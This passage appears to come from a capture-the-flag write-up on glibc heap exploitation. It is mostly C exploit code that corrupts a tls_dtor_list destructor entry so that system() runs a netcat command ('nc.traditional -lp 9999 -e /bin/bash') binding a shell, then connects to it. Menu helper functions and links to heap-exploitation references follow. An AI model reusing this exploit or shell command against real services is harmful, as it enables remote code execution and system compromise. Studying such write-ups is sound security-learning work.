 	agent_edit(8, input, 0x210 + sizeof(struct fake_agent));
 
	pown.ret = tls_dtor_list + 0x8;
	pown.func = system;
	pown.obj = tls_dtor_list + 0x18;
	strcpy(pown.data, "nc.traditional -lp 9999 -e /bin/bash");
 
	agent_edit(6, (char *)&pown, sizeof(struct fake_tls_dtor_entry));
 
	printf("[5] powning\n");
	retrieve = 0;
	agent_exit();
 
	sleep(2);
 
	close(sock);
	sock2 = setsock(HOSTNAME, 9999);
	session(sock2);
 
	return 0;
}
 
void agent_exit()
{
	select_option("0");
}
 
void agent_create(char c, int len)
{
	char buffer[len];
	memset(buffer, c, len);
	select_option("1");
	send_data(buffer, len);
}
 
void agent_select(int agent)
{
	char ag[4];
	int len = snprintf(ag, 4, "%d", agent);
	select_option("2");
	send_data(ag, len);
}
 
void agent_show(int agent, char *buffer, size_t len)
{
	int amt;
	agent_select(agent);
	write(sock, "3\n", 2);
	read(sock, buffer, len - 1);
	amt = read(sock, buffer, len - 1);
	buffer[amt] = '\0';
}
 
void agent_edit(int agent, char *buffer, int len)
{
	agent_select(agent);
	select_option("4");
	send_data(buffer, len);
}
 
void agent_delete(int agent)
{
	agent_select(agent);
	select_option("5");
}
 
void select_option(char *opt)
{
	send_data(opt, 2);

[sploitfun]: https://sploitfun.wordpress.com/2015/02/10/understanding-glibc-malloc/
[goichon]: http://www.contextis.com/documents/120/Glibc_Adventures-The_Forgotten_Chunks.pdf
[tavis]: https://bugs.chromium.org/p/project-zero/issues/detail?id=96&redir=1
[blackngel]: http://phrack.org/issues/67/8.html#article